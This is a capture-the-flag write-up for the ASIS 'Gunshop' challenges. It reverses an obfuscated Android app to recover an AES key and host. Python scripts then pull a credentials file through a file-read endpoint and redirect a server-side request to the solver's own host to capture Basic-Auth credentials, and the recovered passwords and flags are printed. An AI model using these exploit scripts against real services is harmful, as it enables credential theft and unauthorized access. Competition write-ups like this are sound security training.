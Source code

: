 # Gunshop 1 (re/web, 273p, 10 solved)

A two stage challenge, starting with an [obfuscated android app](GunShop.apk)

There is some code to go through but eventually we can figure out that:

1. App is making requests to some host for endpoints `/sessionStart`, `/selectGun` and `/finalizeSession`. There is also and endpoint `/getFile?filename=`.
2. App is encrypting payloads using `AES` and encoding them in base64
3. There initial encryption key is derived via:

```java
PackageInfo packageInfo = context.getPackageManager().getPackageInfo(str, 64);
if (packageInfo.signatures.length == 1) {
    str2 = base64(MessageDigest.getInstance("SHA-256").digest(packageInfo.signatures[0].toByteArray())).substring(0, 16);
}
```

This is used to decrypt the target host and next AES key from the app resources:

```
f18a = C0018m.decryptFile("configUrl", (Context) this);
this.f22q = C0018m.decryptFile("configKey", (Context) this);
```

We were unsure what exactly is used for SHA-256 so we checked all fingerprints from the app signatures, and we finally got the right one.

This way we decrypt the key `123456789as23456` and host `https://darkbloodygunshop.asisctf.com`.

At the same time we got the hostname also simply by sniffing the outgoing traffic.
If we now run the app and try to login, we get error that `username not found in users_gunshop_admins.csv`.

But we've seen the `getFile` endpoint so we can try: https://darkbloodygunshop.asisctf.com/getFile?filename=users_gunshop_admins.csv and we recover the passwords file.

From this we get the credentials: `alfredo` and `YhFyP$d*epmj9PUz`.

We can login to the mobile app now, but it doesn't really do much for us.

Since we recovered the encryption key for the traffic, we can try to access the REST endpoinst on our own:

```python
s = requests.session()
key = "123456789as23456"
payload = json.dumps({"username": "alfredo", "password": "YhFyP$d*epmj9PUz", "device-id": "1235"})
aes = AES.new(key, AES.MODE_ECB)
payload = base64.b64encode(aes.encrypt(pad(payload)))
r = s.post("https://darkbloodygunshop.asisctf.com/startSession", verify=False, data={"user_data": payload})
result = r.text.decode("base64")
result = aes.decrypt(result)[:-5]
print(result)
```

We form the same json payload as seen in the java code and running this gives us:

```json
{"key": "9a533b1465af2b63de48494c93041d92", "deviceId": "1235", "flag1": "ASIS{d0Nt_KI11_M3_G4NgsteR}", "list": [{"pic": "1.jpg", "id": "GN12-34", "name": "Tiny Killer", "description": "Excellent choise for silent killers."}, {"pic": "2.jpg", "id": "GN12-301", "name": "Gru Gun", "description": "A magic underground weapon."}, {"pic": "3.png", "id": "GN12-1F52B", "name": "U+1F52B", "description": "Powerfull electronic gun. Usefull in chat rooms and twitter."}, {"pic": "4.jpeg", "id": "GN12-1", "name": "HV-Penetrator", "description": "The Gun of future."}, {"pic": "5.jpg", "id": "GN12-90", "name": "Riffle", "description": "Protect your self with me."}, {"pic": "6.png", "id": "GN12-21", "name": "Gun Shop Subscription", "description": "Subscription 1 month to gun shop."}, {"pic": "7.png", "id": "GN12-1002", "name": "GunSet", "description": "A Set of weapons, useful for assassins."}]}
```

Which concludes the first part of the task with the flag `ASIS{d0Nt_KI11_M3_G4NgsteR}`.

# Gunshop 2 (web, 304p, 8 solved)

The second part starts where the first one finished.
Now the traffic gets encrypted by the new `key` parameter we received in the json payload.

We proceed with performing the same REST calls as the App normally does, we select a gun:

```python
obj = json.loads(result)
key = obj["key"].decode("hex")

payload = json.dumps({"gunId": "GN12-21"})
aes = AES.new(key, AES.MODE_ECB)
payload = base64.b64encode(aes.encrypt(pad(payload)))
r = s.post("https://darkbloodygunshop.asisctf.com/selectGun", verify=False, data={"user_data": payload})
print(r.text)
result = r.text.decode("base64")
result = aes.decrypt(result)
print(result)
```

This gives us:

```json
{"shop": {"name": "City Center Shop", "url": "http://188.166.76.14:42151/DBdwGcbFDApx93J3"}}
```

So we got the host for the second flag.
But if we try to access this URL is accepts only POST and there is Basic-Auth on top of it.

The last thing that mobile App does is to call `/finalizeSession` endpoint passing the store `url`, which somehow submits our order.
After some thinking we figured that maybe in fact the darkbloodygunshop webapp is sending a proper POST request to the shop we send as parameter.
If so maybe it includes the credentials!

We proceed with sending the request with our own URL waiting for data:

```python
payload = json.dumps({"shop": "our.host"})
aes = AES.new(key, AES.MODE_ECB)
payload = base64.b64encode(aes.encrypt(pad(payload)))
s.post("https://darkbloodygunshop.asisctf.com/finalizeSession", verify=False, data={"user_data": payload})
print(r.text)
result = r.text.decode("base64")
result = aes.decrypt(result)
print(result)
```

And yes, we receive a request:

```python
{
  "content-length": "30",
  "user-agent": "python-requests/2.20.1",
  "accept": "*/*",
  "accept-encoding": "gzip, deflate",
  "content-type": "application/x-www-form-urlencoded",
  "authorization": "Basic YmlnYnJvdGhlcjo0UWozcmM0WmhOUUt2N1J6"
}
```

There is some POST body, but what we really want is basic auth payload `YmlnYnJvdGhlcjo0UWozcmM0WmhOUUt2N1J6` which decoded as base64 is `bigbrother:4Qj3rc4ZhNQKv7Rz`.

If we now send request to the real shop with those credentials we get back a flag: `ASIS{0Ld_B16_br0Th3r_H4d_a_F4rm}`
